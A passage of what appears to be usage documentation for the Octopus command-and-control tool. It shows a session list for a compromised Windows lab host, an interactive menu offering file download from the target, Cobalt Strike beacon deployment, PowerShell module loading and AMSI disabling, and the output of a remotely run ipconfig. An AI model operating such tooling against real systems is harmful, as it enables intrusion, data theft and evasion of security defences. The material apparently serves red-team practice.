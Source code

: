 
  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >> help


Available commands to use :

Hint : if you want to execute system command just type it and wait for the results

+++++++++
help  				show this help menu
exit/back 			exit current session and back to the main screen
clear 				clear the screen output
download 			download file from the target machine
deploy_cobalt_beacon 		deploy cobalt strike powershell beacon in the current process
load 				load powershell module to the target machine
disable_amsi 			disable AMSI on the target machine
report 				get situation report from the target


(HR-PC-TYRMJ) >>
```

To execute a system command directly we can type the command directly and then wait for the results based on the interval check time that we set when we created the listener.

```
(HR-PC-TYRMJ) >> ipconfig
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Command execution result is :

Windows IP Configuration


Ethernet adapter Ethernet1:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::f85f:d52b:1d8d:cbae%10
   IPv4 Address. . . . . . . . . . . : 192.168.1.43
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
